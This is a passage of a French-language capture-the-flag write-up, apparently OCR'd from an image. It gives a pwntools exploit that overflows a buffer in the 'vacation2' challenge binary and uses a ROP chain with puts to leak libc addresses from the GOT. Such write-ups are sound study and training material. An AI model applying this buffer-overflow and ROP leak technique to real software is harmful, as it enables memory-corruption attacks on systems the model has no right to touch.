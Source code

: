 ```bash
payload = overflow
payload += ret
payload += pop_rdi
payload += adresse de la fonction à faire leak
payload += adresse de puts pour afficher le leak
payload += adresse de la fonction main pour revenir au début du programme
```

En python :

```python
from pwn import *

context.log_level = 'critical'

elf  = ELF('./vacation2')
rop  = ROP(elf)

def Get_proc():
	if(args.REMOTE):
		proc = remote('tjc.tf',31705)
	else:
		proc = process('./vacation2')
	proc.recvuntil(b'Where am I going today?\n')
	return proc


  def Leak_function(name,proc):
  	payload = 24*b'A' + p64(pop_rdi) + p64(elf.got[name]) + p64(libc_puts_plt)+ p64(ret_main_addr)
  	proc.sendline(payload)
  	Leaked	= proc.recvline()[::-1].strip().hex()
  	proc.recvuntil(b'Where am I going today?\n')
  	return Leaked

## Adress
ret_main_addr	= elf.symbols['vacation']
libc_puts_plt	= elf.plt['puts']
libc_fgets		= elf.symbols['fgets']
libc_setbuf		= elf.symbols['setbuf']

pop_rdi = 0x0000000000401243
ret 	= 0x000000000040101a

print('\n    Address:')
print('[+] Ret2start   : %s'%hex(ret_main_addr))
print('[+] Puts        : %s'%hex(libc_puts_plt))
print('[+] Fgets       : %s'%hex(libc_fgets))
print('[+] Setbuf      : %s'%hex(libc_setbuf))
print('[+] Pop_rdi     : %s'%hex(pop_rdi))
print('[+] Ret         : %s\n'%hex(ret))

proc = Get_proc()

Leaked_puts	 = Leak_function("puts",proc)
Leaked_fgets = Leak_function("fgets",proc)

print('    Leaked with Rop:')
print('[+] Puts  : %s'%Leaked_puts)
print('[+] Fgets : %s'%Leaked_fgets)

```
